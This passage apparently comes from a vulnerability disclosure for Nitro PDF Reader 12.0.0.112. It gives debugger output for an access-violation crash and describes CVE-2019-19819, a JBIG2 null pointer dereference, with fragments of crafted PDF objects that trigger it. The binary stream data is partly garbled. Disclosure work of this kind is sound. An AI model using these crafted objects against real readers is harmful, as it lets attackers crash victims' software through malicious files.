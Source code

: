 ```
        00007ff928896422 mfc120u!AfxCallWndProc+0x000000000000010e [f:\dd\vctools\vc7libs\ship\atlmfc\src\mfc\wincore.cpp @ 282]
```

From the heap result, we can tell the final execution failed to deallocated object
from memory thus resulting out-of-bound read. Exception address:
```
0:000> .exr -1
ExceptionAddress: 00007ff928f4bdea
(npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0x000000000000a08a)
ExceptionCode: c0000005 (Access violation)
ExceptionFlags: 00000000
NumberParameters: 2
Parameter[0]: 0000000000000000
Parameter[1]: 000001f3bf88f020
Attempt to read from address 000001f3bf88f020
```

CVE-2019-19819 - (npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0x90ec) JBIG2Globals Null Pointer Dereference Vulnerability
-------------------------------------------------------------------------------------------------------------------------------------
A NULL Pointer Dereference vulnerability exists in the handling of JBIG2Globals object stream attributes of Nitro PDF Reader version 12.0.0.112. A specially crafted PDF document can trigger the NULL Pointer, result in the failure of the processing the exception handling. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. If the browser plugin extension is enabled, visiting a malicious site can also trigger the vulnerability.

The NULL Pointer issue found when it parse the object stream, where it failed to decode the unicode character found in the stream. This happened when it tries to process the following example:
```
4 0 obj
<< /Length 103
>>
stream
���������\��ÿýÿþþþ������}\åõ£!õÜFæ:÷BSö? âI�vœÐû|íx\Lúùr?/UÄS³:>2¨ÿ+1lV?~~èa"xvi´–„#ÿ¬
endstream
endobj

5 0 obj
w
/Width 32
/ColorSpace /DeviceGray
/Height 32
/Filter /JBIG2Decode
/Subtype /Image
/Length 261
/Type /XObject
/BitsPerComponent 1
>>
stream
���0������� �ÿÿ�G���O������¤"����"��������€���@�Êÿÿ�@�Gÿ��Fÿÿü����¦"����"�������ÿÿÿßòGÿÊ����¤"ÿ��Fÿÿü���!¦*����"���`���o�ÿÿ���G�� ����G���O������¤"����"��������€���@�Éëÿÿ�@�Gÿ��Fÿÿü���«*����"���`����ÿÿ���GÿÿÊèÿ���N���_ÿ€�
endstream
endobj
```

